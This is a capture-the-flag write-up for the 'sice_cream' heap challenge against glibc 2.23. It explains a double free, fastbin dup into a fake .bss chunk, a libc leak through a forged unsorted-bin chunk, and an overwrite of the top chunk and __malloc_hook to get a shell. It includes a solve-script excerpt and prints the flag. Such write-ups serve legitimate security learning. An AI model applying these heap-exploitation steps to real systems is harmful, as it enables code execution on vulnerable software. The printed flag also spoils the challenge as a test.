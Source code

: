 # sice_cream - 500 points

## Flag

```
flag{th3_r3al_questi0n_is_why_1s_libc_2.23_still_4_th1ng_62167e9e}
```

## Analysis

```bash
$ strings libc.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu11) stable release version 2.23, by Roland McGrath et al.
Compiled by GNU CC version 5.4.0 20160609.
        GNU Libidn by Simon Josefsson

$ checksec sice_cream
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   RW-RUNPATH   No Symbols      Yes     0               2       sice_cream

```

The libc version is 2.23, meaning that tcache has not been implemented yet. We could also try House of Orange because of less strict checks. Only PIE is disabled, meaning that we will probably have to go for either FSOP or an overwrite on `__malloc_hook` or `__free_hook`. 

Decompiling the binary with Ghidra, there are no checks on the pointer that we free, leading to a double free vulnerability. We also have the ability to print an array in .bss, `name`. Finally, we get a total of 20 mallocs, with a constrained size `(size < 0x58)`.  

## Solution

### Fastbin Dup
We can use [fastbin_dup_into_stack](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/fastbin_dup_into_stack.c) to get a fake chunk in `name`. Note that we have to forge a chunk header initially. 

```
  [ 0xdeadbeef  ] [    0x61    ]
  [ 0x00 (fd)   ] [    ...     ]
                ...               
```
_Fake fastbin chunk_

Note how we set the `fd` pointer of our fake chunk to NULL to make the fastbins a bit cleaner, but this step is probably not necessary. 

### Chunk Forging
After getting a fake chunk, we can edit the `name` array to change our fastbin chunk to an unsorted bin chunk (size > 0x80). The easiest way to fake a chunk is to satisfy the following conditions. 

1. The `prev_in_use` bit of the current chunk is set
2. The `prev_in_use` bit of the next chunk is set
3. THe `prev_in_use` bit of the next next chunk is set

```
0x00  [ 0xdeadbeef  ] [    0x91    ]
      [             ...            ]
      [             ...            ]
      [             ...            ]
0x90  [     ...     ] [    0x11    ]
0xa0  [     ...     ] [    0x11    ]
                    ...               
``` 
*Fake unsorted bin chunk*

Note that the chunk sizes for the next chunk and next next chunk don't have to be valid (chunks of sizes < 0x20 are invalid for 64 bit systems). 

### Libc leak
After freeing the fake chunk, two libc addresses are written to `name`. More specifically, pointers to the unsorted bin are written here. 
```
0x00  [ 0xdeadbeef  ] [    0x91    ]
0x10  [  libc addr  ] [  libc addr ]
      [             ...            ]
      [             ...            ]
0x90  [     ...     ] [    0x11    ]
0xa0  [     ...     ] [    0x11    ]
                    ...               
``` 
*Libc address leak*

We can leak the libc base now by overwriting the first 0x10 bytes of our fake chunk and printing. From here on out, we won't be able to malloc any chunks that are not already in the fastbins (or at least it'll be significantly messier to) because we messed with the unsorted bin. 

### Top Chunk Exploit
The intuition here is to overwrite the top chunk pointer in malloc_state. 
```
struct malloc_state
{
  /* Serialize access.  */
  mutex_t mutex;

  /* Flags (formerly in max_fast).  */
  int flags;

  /* Fastbins */
  mfastbinptr fastbinsY[NFASTBINS];

  /* Base of the topmost chunk -- not otherwise kept in a bin */
  mchunkptr top;

  /* The remainder from the most recent split of a small request */
  mchunkptr last_remainder;   

  /* Normal bins packed as described above */
  mchunkptr bins[NBINS * 2 - 2];

  /* Bitmap of bins */
  unsigned int binmap[BINMAPSIZE];

  /* Linked list */
  struct malloc_state *next;

  /* Linked list for free arenas.  Access to this field is serialized
     by free_list_lock in arena.c.  */
  struct malloc_state *next_free;

  /* Number of threads attached to this arena.  0 if the arena is on
     the free list.  Access to this field is serialized by
     free_list_lock in arena.c.  */
  INTERNAL_SIZE_T attached_threads;

  /* Memory allocated from the system in this arena.  */
  INTERNAL_SIZE_T system_mem;
  INTERNAL_SIZE_T max_system_mem;
};
```

Problematically, there are no valid fastbin chunk headers in libc. The constrained malloc size means we can't forge a chunk of size 0x70 to use the 0x7f addresses typically associated with libc addresses. I guess we'll just have to make our own header then. 

Note that we can control the `fastbinsY` array by doing the fastbin dup exploit. More specifically, we can write any address we want to the corresponding fastbin because we control the `fd` pointer of fastbins. 

```
A2 = alloc(0x48)
B2 = alloc(0x48)

free(A2)
free(B2)
free(A2)

alloc(0x48, payload=p64(address))
alloc(0x48)
alloc(0x48)

# Fastbin for 0x48 (0x50) chunks = address
```
*Slightly modified version of relevant parts of solve.py*

With this, we can write a valid fastbin chunk header into the `malloc_state`, allowing us to overwrite the top chunk pointer. Pointing the top chunk behind `__malloc_hook` allows us to overwrite `__malloc_hook`. 

Small problem: we won't be able to malloc from the top chunk until the unsorted bin is fixed first. To do this, we can forge a chunk with proper unsorted bin addresses so malloc will ignore the unsorted bin chunk. 
```
0x00  [ 0xdeadbeef  ] [    0x21    ]
0x10  [  libc addr  ] [  libc addr ]
      [             ...            ]   
``` 

Activating the malloc hook with the `0xf02a4` one_gadget and a `malloc_printerr` results in a shell.